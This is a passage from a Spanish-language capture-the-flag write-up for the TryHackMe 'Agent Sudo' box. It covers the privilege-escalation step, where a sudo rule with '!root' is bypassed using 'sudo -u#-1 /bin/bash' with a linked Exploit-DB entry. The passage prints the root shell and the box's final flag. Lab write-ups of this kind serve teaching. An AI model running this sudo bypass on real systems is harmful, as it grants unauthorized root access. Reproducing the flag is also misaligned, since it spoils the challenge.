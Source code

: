 Pero lo haremos de otra forma al ver esto nos damos cuenta que puedes usar el script por que estamos en el grupo `lxd`

```shell
james@agent-sudo:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ 
```

Si investigamos hay un CVE 
<https://www.exploit-db.com/exploits/47502>

Esto no tiene mayor dificultadad 

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:/root# 
```

![](/assets/images/try-writeup-agentsudo/listo.png)
